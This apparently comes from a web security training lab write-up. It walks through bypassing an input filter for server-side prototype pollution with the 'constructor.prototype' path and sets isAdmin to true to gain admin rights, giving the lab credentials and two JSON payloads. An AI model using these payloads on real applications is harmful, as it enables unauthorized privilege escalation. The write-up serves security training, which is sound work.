# Lab 7 - Constructor Property

### Objective: Bypass Input Filters and Privesc

Login like usual with the given credentials::

`wiener:peter`

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Submit, inspect the request and forward to Repeater

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

I'm going to assume the normal method of polluting the prototype is filtered. Let's try bypassing this using the `constructor` property

```json
"constructor":{
	"prototype":{
		"foo":"bar"
	}
}
```

Send the request

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Great, that worked. Now just change the value of `isAdmin` to `true`

```json
"constructor":{
	"prototype":{
		"isAdmin":"true"
	}
}
```
